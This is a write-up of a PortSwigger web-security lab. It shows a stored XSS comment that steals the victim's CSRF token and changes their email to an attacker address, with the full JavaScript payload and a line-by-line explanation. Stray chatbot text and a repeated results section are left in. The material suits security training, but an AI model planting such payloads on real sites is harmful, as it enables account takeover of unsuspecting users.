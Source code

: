 **🗓️ Solution Date:** 23 / 5 / 2025  
**🔗 Lab Link:** [Exploiting XSS to bypass CSRF defenses](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)  
**🧨 Vulnerability Type:** Stored XSS  

---

## 1️⃣ Introduction

In this lab, there is a **Stored XSS** vulnerability in the blog comment system. This vulnerability can be exploited to inject JavaScript code that steals the victim's **CSRF Token** when they open the page, then uses this token to send a **POST** request to change their email address without their knowledge.

---

### 👤 Test Login Credentials:
- **Username:** `wiener`
- **Password:** `peter`

---

### 💡 Important Notes:
- You cannot use an already registered email.
- When testing on your account, use a random dummy email.
- In the actual attack, ensure you use an unused email address.
- Tools like **Burp Suite** are useful for capturing and analyzing requests.
- Ensure the XSS code works as soon as the victim opens the comments page.

---

## 2️⃣ Practical Testing

I tested changing the email from my account and monitored the resulting request, which contained the new email along with the CSRF token as shown in the following image:

> ![Pasted image](../images/Pasted%20image%202025XXXXXXXXXX.png)

Based on this, I exploited the XSS vulnerability so that automatically, when any user (like admin) visits the comments page, their CSRF token is stolen and a request is submitted to change their email to the attacker's account.

---

## 3️⃣ Payload Used

```html
<script>
window.addEventListener('DOMContentLoaded', function() {
  let tokenElem = document.getElementsByName('csrf')[0].value;
  fetch('my-account/change-email', {
    method: 'POST',
    mode: 'no-cors',
    body: 'email=attacker@gmail.com&csrf=' + tokenElem,
  });
});
</script>
```

---

## 4️⃣ Payload Explanation Step by Step

1. **`<script>`**  
    The code starts as an HTML script element injected into a comment (through the XSS vulnerability).
    
2. **`window.addEventListener('DOMContentLoaded', function() { ... });`**  
    This line ensures the code won't execute until the page is fully loaded (after DOM elements are loaded).
    
3. **`let tokenElem = document.getElementsByName('csrf')[0].value;`**  
    This line searches for an element in the page with the name (name="csrf"), assuming it's an `<input>` element containing the **CSRF token**.  
    The value is extracted and stored in the `tokenElem` variable.
    
4. **`fetch('my-account/change-email', { ... })`**  
    This line executes an HTTP request of type `POST` to the email change path (`my-account/change-email`) within the same site.
    
    #### Parameters:
    
    - **`method: 'POST'`**  
        Because changing email requires a POST request.
        
    - **`mode: 'no-cors'`**  
        This prevents the browser from blocking the request due to **CORS** policy. However, it also prevents the browser from allowing you to read the response (which doesn't matter here as the attack is "blind").
        
    - **`body: 'email=attacker@gmail.com&csrf=' + tokenElem`**  
        The request body contains the required data for changing the email:
        
        - `email=attacker@gmail.com`: The new address to change to.
            
        - `csrf=...`: The protection token extracted from the page.
            

---

### 🎯 Expected Result:

As soon as the victim (e.g., site administrator) visits the comments page containing this code, the request to change their email to `attacker@gmail.com` is automatically executed without their knowledge, unless there are additional protections like CSP or strict SameSite Cookies.

---

Would you like me to modify the code to include proper header formatting (Content-Type)?
---

## 5️⃣ Expected Result

Once the victim visits a page containing this comment, a request to change their email to `attacker@gmail.com` is automatically sent using their CSRF token, without any direct intervention from them.

✅ The attack was successfully executed in the lab environment, ensuring all conditions were met to bypass protection mechanisms.
